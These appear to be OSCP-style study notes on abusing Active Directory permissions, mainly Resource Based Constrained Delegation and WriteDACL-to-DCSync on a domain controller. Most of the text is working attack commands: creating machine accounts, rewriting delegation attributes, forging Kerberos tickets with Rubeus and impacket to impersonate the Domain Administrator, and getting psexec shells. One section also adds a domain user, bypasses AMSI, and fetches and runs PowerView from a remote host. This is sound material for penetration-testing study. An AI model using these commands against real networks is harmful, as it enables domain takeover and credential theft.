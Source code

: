 # Important Permissions
GenericAll: Full permissions on object
GenericWrite: Edit certain attributes on the object
WriteOwner: Change ownership of the object
WriteDACL: Edit ACE's applied to object
AllExtendedRights: Change password, reset password, etc.
ForceChangePassword: Password change for object
Self (Self-Membership): Add ourselves to for example a group


# GENERICALL ON A MACHINE:: Resource Based Constrained Delegation
WUT IS DIS?:
TL;DR
If we have GenericALL/GenericWrite privileges on a machine account object of a domain, we can abuse it and impersonate ourselves as any user of the domain to it. 
For example we can impersonate Domain Administrator and have complete access.

## Exploit on Windows

Tools we are going to use:
PowerView.ps1
Powermad.ps1
Rubeus.exe

```bash
#Import Powermad and use it to create a new MACHINE ACCOUNT
. .\Powermad.ps1
New-MachineAccount -MachineAccount <MachineAccountName> -Password $(ConvertTo-SecureString 'p@ssword!' -AsPlainText -Force) -Verbose

#Import PowerView and get the SID of our new created machine account
. .\PowerView.ps1
$ComputerSid = Get-DomainComputer <MachineAccountName> -Properties objectsid | Select -Expand objectsid

#Then by using the SID we are going to build an ACE for the new created machine account using a raw security descriptor:
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

#Next, we need to set the security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we're taking over, again using PowerView
Get-DomainComputer TargetMachine | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

#After that we need to get the RC4 hash of the new machine account's password using Rubeus
Rubeus.exe hash /password:'p@ssword!'

#And for this example, we are going to impersonate Domain Administrator on the cifs service of the target computer using Rubeus
Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword> /impersonateuser:Administrator /msdsspn:cifs/TargetMachine.wtver.domain /domain:wtver.domain /ptt

#Finally we can access the C$ drive of the target machine
dir \\TargetMachine.wtver.domain\C$
```

This won't work locally so first copy and paste base64 on kali linux 

![image](https://github.com/nuricheun/OSCP/assets/14031269/558fc1b8-7a19-4b01-bbfc-5da6f262a60c)

```bash
# I just copied and pasted base64 into a file named base
mousepad base
# Decoded it and save it as ticket.kirbi                                                                                                                                                              
cat base | base64 -d > ticket.kirbi
# Convert it to ccache
impacket-ticketConverter ticket.kirbi ticket.ccache
export KRB5CCNAME=ticket.ccache  
psexec.py -k -no-pass resourced.local/administrator@resourcedc.resourced.local -dc-ip 192.168.201.175
```

## Exploit on Linux

Tools we are going to use:
impacket-addcomputer
rbcd.py
impacket-getST
impacket-psexec

```bash
impacket-addcomputer resourced.local/l.livingstone -dc-ip 192.168.x.x -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
python3 rbcd.py -dc-ip 192.168.x.x -t RESOURCEDC -f 'ATTACK' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced\\l.livingstone
impacket-getST -spn cifs/resourcedc.resourced.local resourced/attack\$:'AttackerPC1!' -impersonate Administrator -dc-ip 192.168.x.x
export KRB5CCNAME=./Administrator.ccache
impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.x.x
```

# WriteDacl on DC
- The WriteDACL privilege gives a user the ability to add ACLs to an object
- This means that we can add a user to this group and give them DCSync privileges.
  
```bash
# First add a user
net user john abc123! /add /domain
net group "Eschange Windows Permissions" john /add
net localgroup "Remote Management Users" john /add

# Download powerview
Bypass-4MSI
iex(new-object net.webclient).downloadstring('http://10.10.10.161/PowerView.ps1')

$SecPassword = ConvertTo-SecureString 'abc123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB.local\john', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity john -Rights DCSync
```
